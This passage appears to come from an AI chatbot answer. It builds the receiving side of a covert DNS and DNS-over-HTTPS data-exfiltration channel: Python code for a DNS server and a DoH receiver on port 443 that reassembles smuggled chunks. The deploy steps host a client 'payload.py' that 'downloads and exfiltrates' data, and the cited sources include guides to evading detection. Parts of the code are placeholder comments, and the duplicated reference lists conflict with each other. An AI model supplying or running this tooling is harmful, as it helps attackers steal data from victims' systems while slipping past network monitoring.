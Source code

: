 ```python
if __name__ == "__main__":
    resolver = Resolver()
    srv = DNSServer(resolver, port=53, address="0.0.0.0")
    srv.start()
```

---

## 🔐 3. server\_doh.py – DNS-over-HTTPS Receiver

Accepts DoH queries over HTTPS and feeds them into the same pipeline:

```python
# server_doh.py
from http.server import HTTPServer, BaseHTTPRequestHandler
from dnslib import DNSRecord
import base64
from server_dns import buffer  # reuse buffer

class DoHHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        pkt = self.rfile.read(int(self.headers['Content-Length']))
        req = DNSRecord.parse(pkt)
        qname = str(req.q.qname).rstrip('.')
        # duplicate chunk parsing logic from Resolver
        # call same reconstruct routine
        self.send_response(200)
        self.send_header("Content-Type","application/dns-message")
        self.end_headers()
        self.wfile.write(req.reply().pack())

HTTPServer(('', 443), DoHHandler).serve_forever()
```

---

## 🌐 4. doh\_proxy.py – Optional DoH-to-UDP Proxy

You can use an existing tool like **stamparm/python-doh** ([nhairs.github.io][2], [nhairs.github.io][3], [github.com][4], [en.wikipedia.org][5]), or write a custom proxy that forwards DoH to your UDP handler.

---

## 🚀 5. Quick Deploy with HTTP + Client Handler

Combine with your client payload:

* Host `payload.py` via:

  ```bash
  python3 -m http.server 8000
  ```
* `payload.py` downloads and exfiltrates via DNS or DoH using Python or PowerShell variants previously defined.

---

[1]: https://github.com/PaulKoumedzro/iodine-DNS-tunneling?utm_source=chatgpt.com "GitHub - PaulKoumedzro/iodine-DNS-tunneling: Official git repo for iodine dns tunnel"
[2]: https://github.com/bufo333/python-dns-exfiltration-client-server?utm_source=chatgpt.com "GitHub - bufo333/python-dns-exfiltration-client-server: A DNS exfiltration client and server written in python"
[3]: https://danger-team.org/the-ultimate-dns-tunneling-guide-from-zero-to-hero/?utm_source=chatgpt.com "The Ultimate DNS Tunneling Guide: From Zero to Hero"
[4]: https://exfil.tymyrddin.dev/docs/thm/dns-tunnel?utm_source=chatgpt.com "DNS tunneling — Gathering edibles"
[5]: https://medium.com/%400xHossam/evading-detection-and-stealthy-data-exfiltration-with-dns-over-https-doh-ee134b5766d4?utm_source=chatgpt.com "Evading Detection and Stealthy Data Exfiltration with DNS over HTTPS (DoH) | by Hossam Ehab | Medium"
[6]: https://www.reddit.com/r/hacking/comments/mhzsz0?utm_source=chatgpt.com "Exfiltrate files using the DNS"
[7]: https://medium.com/learning-cybersecurity/http-dns-encrypted-data-exfiltration-techniques-77d6fee6c749?utm_source=chatgpt.com "HTTP/DNS/Encrypted data exfiltration techniques | by Angel Mercado | Learning CyberSecurity | Medium"
[1]: https://github.com/bufo333/python-dns-exfiltration-client-server?utm_source=chatgpt.com "GitHub - bufo333/python-dns-exfiltration-client-server: A DNS exfiltration client and server written in python"
[2]: https://nhairs.github.io/dnslib/latest/reference/dnslib/?utm_source=chatgpt.com "Index - Dnslib"
[3]: https://nhairs.github.io/dnslib/latest/?utm_source=chatgpt.com "Dnslib"
[4]: https://github.com/stamparm/python-doh?utm_source=chatgpt.com "GitHub - stamparm/python-doh: Python client for DNS over HTTPS (DoH) protocol"
[5]: https://en.wikipedia.org/wiki/DNS_over_HTTPS?utm_source=chatgpt.com "DNS over HTTPS"
[6]: https://medium.com/%40Oscar404/dns-tunneling-attack-d2b610150a45?utm_source=chatgpt.com "DNS Tunneling attack. Introduction to DNS Tunneling | by Oscar404 | Medium"
[7]: https://www.reddit.com/r/masterhacker/comments/n5g46a?utm_source=chatgpt.com "So... I guess they were right all along?"